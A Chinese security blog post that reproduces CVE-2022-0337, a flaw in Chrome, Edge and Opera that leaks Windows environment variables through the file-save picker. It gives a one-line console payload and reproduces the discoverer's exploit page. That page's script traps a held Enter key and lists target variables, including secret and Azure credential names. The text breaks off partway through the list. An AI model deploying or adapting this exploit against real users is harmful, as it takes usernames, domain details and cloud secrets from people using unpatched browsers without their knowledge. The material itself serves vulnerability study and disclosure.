

# 有意思的 CVE-2022-0337 复现 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16184394.html`](https://www.cnblogs.com/hetianlab/p/16184394.html)

# 　前言

　前两天在刷 tw，看到了个比较有意思的一个 CVE 漏洞，价值奖励是 10000 美刀，比较好奇的是价值 10000 美刀的漏洞是什么样子的，漏洞利用就是需要在浏览器中进行用户交互才能触发该漏洞，但由于 Windows 的文件保存默认为接受，通过使用强制您按 ENTER 约 2 秒的技巧简单地泄漏数十个环境变量。

# 　影响版本

> Google Chrome 版本范围 92.x-96.x
> 
> Microsoft Edge 版本范围 92.x-96.x
> 
> Opera 版本范围 78.x-81.x

# 　复现

　在存在漏洞的浏览器 F12 的控制台输入 payload

> let a = await window.showSaveFilePicker({suggestedName:'%username%'});a.name;

　但是必须要访问一个存在的 html，百度首页测试



　保存后控制台输出环境变量 username 的值


　漏洞发现者为：**Maciej Pulikowski**，exp 也是来自于作者，中间改了点样式，因为觉得有点不太美观！


　EXP

```
<html>
 <head>
 <title>
 CVE-2022-0337 System environment variables leak on Google Chrome,
 Microsoft Edge and Opera
 </title>
 <meta charset="UTF-8" />
 </head>
​
 <style>
 body {
 background: rgba(212,0,0,0.2);
 display: flex;
 justify-content: center;
 align-items: center;
 flex-direction: column;
 }
h1,
h2,
h3 {
 -webkit-text-stroke: 1px #00000050;
}
​
h1 {
 color: #d96c06;
 font-size: 36px;
}
h2 {
 color: #1ebe8e;
 font-size: 46px;
}
h3 {
 color: #c6f91f;
 font-size: 18px;
}
h2 span {
 color: #cf4848;
 font-size: 70px;
}
​
#author {
 font-size: 28px;
}
​
span {
 font-weight: 100;
}
</style>
​
 <body>
 <script>
 //how many time enter clicked in row
 let countEnter = 0;
 //is file downloaded
 let isDownloaded = false;
​
 //on page load
 window.onload = function () {
 const body = document.querySelector("body");
 const pixel = document.querySelector("#pixel");
​
 body.onkeydown = (e) => (e.key == "Enter" ? clickedEnter() : 1);
 body.onkeyup = (e) => (e.key == "Enter" ? cancelEnter() : 1);
​
 const randomNumber = Math.floor(Math.random() * 990) + 1;
 const filename = `f${randomNumber}.f`;
​
 //List of environment variables that hacker is interested in.
 const environmentVariables = [
 "USERNAME",
 "USERDOMAIN",
 "SESSIONNAME",
 "COMPUTERNAME",
 "KEY_VAULT_URL",
 "SECRET_NAME",
 "AZURE_TENANT_ID",
```